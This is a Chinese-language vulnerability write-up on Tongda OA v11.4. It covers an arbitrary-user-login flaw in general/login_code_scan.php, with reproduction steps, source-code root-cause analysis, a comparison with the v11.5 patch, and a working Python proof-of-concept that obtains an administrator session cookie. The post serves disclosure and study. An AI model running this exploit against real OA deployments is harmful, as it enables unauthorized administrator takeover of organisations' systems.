 ```yaml
---
title: 通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）
date: 2020-12-19
---
```


## 漏洞概述

通达OA系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。 Office Anywhere采用基于WEB的企业计算，主HTTP服务器采用了世界上最先进的 Apache服务器，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。提供数据备份工具，保护系统数据安全。多级的权限控制，完善的密码验证与登录验证机制更加强了系统安全性。

通达OA官方更新了V11版本安全补丁，修复了任意用户伪造登录漏洞，该漏洞的操作难度低，危害程度大。未经授权的攻击者通过构造请求包实现用户登录，又由于UID是主键且步进为1递增，从而导致可以指定UID实现任意用户登录（admin的缺省UID为1）。
## 漏洞环境

官网：https://www.tongda2000.com/

下载：https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe

版本：通达OA V11.X<V11.5

测试系统： 

Windows 7 专业版 64位操作系统 

macOS11.0.1 （攻击机）

python3.7.5

## 漏洞验证
第一步：访问ispirit/login_code.php，在返回值中保存codeuid：{58AA7BF5-725C-F8EB-3324-BE17C4E8F6AA}

第二步：访问general/login_code_scan.php
修改如下：

```
GET请求改为POST请求
添加Content-Type
添加Content-Length
添加请求体codeuid={xxx}&source=pc&uid=1&type=confirm&username=admin
```



![](20201219101708128_5207.png)

这个请求一般会返回status 1

  ![](20201219102012280_28610.png)

  第三步：访问/ispirit/login_code_check.php?codeuid={xxx}

  ![](20201219102123533_12814.png)

  如果请求正常，会返回如下图所示数据 
  ![](20201219102401024_13617.png)

第四步：访问/general/index.php，顺利登录后台，权限是系统管理员，实现任意用户登录
  ![](20201219102509925_13991.png)



## 漏洞原理

漏洞地址存在于general/login_code_scan.php，进入解密后的源码处查看代码，可以看到通过POST请求接收5个参数，然后存到数组里，uid可控，没有对uid进行任何校验，这就产生了漏洞
![](20201219104350520_5847.png)

这里会检测codeuid，如果codeuid存在并且正确会返回1

![](20201219104600278_30979.png)

再后面就没有任何检测了，直接在返回包里返回status

![](20201219105133157_30970.png)

漏洞点要发送5个参数，分别是codeuid，source，uid，type，username

* codeuid必须是实时获取到的，否则无法通过校验

* source只需填入pc、web或者mac其中之一（源码中做了判断,必须是这三个之一才会正常返回status）

* uid为1就是管理员权限，可以通过本地数据库查到，前面几篇博客都说明了，就不多说了。

* 最后并没有对type和username做检测
  

按理发请求的时候这两个任意值都是可以的，但是经过测试username可以是任意值，但是type必须是confirm，否则无法任意用户登录，那么这个type应该是有校验的，只不过不是在这个文件中，所以我们要找到这个校验处。
  校验很可能存在的位置就是下一个步骤，也就是访问/ispirit/login_code_check.php?codeuid={xxx}，找到源码进行查看。
可以看到15行对type进行判断

![](20201219170612652_23176.png)

  

如果type不是confirm就不会执行session操作，换句话就无法保存状态，伪造的管理员cookie也就无法生效了，后续直接访问后台就不会成功，所以type必须是confirm。



![](20201219170917295_8923.png)



## 补丁分析

找到v11.5版本的general/login_code_scan.php文件，可以看到不再直接从UID参数中取UID了，而是通过P参数获取sessionid，再通过sessionid获取数据库中的UID，再通过UID等信息生成TOKEN，最后再通过TOKEN等信息生成缓存，这样就解决了UID可控的问题了

![image-20201219215830050](image-20201219215830050.png)

![image-20201219221115596](D:\tutucoo\content\posts\通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）\image-20201219221115596.png)

## 总结
该漏洞点存在于general/login_code_scan.php，需要传递5个参数，分别是codeuid、source、uid、type、username、其中codeuid需要发送ispirit/login_code.php请求获取，其他几个参数通过分析源码我们也都知道了，唯独还有/ispirit/login_code_check.php?codeuid={xxx}请求，不知道是从何而来，可能是通过黑盒测试，二维码扫描过程中抓到的吧，也就是个猜测，自己通过APP扫码登录出了点问题，就不再细说了。

## 附：POC
```python3
import json
import requests

def getSession(url):
    vulUrl = url+'/ispirit/login_code.php'
    res = requests.get(vulUrl)
    codeuid = json.loads(res.text)['codeuid']
    print(codeuid)
    confirmUrl = url + '/general/login_code_scan.php'
    data = {
        'codeuid':codeuid,
        'uid': int(1),
        'source': 'pc',
        'type': 'confirm',
        'username': 'admin',
    }

    res = requests.post(confirmUrl,data=data)
    status = json.loads(res.text)['status']
    print(status)
    if status == str(1):
        seesionUrl = url + '/ispirit/login_code_check.php?codeuid='+codeuid
        res = requests.get(seesionUrl)
        print('[*]cookie:'+res.headers['Set-Cookie'])
    else:
        print('[-]failed')


if __name__ == "__main__":
    getSession('http://xxxx/')
```
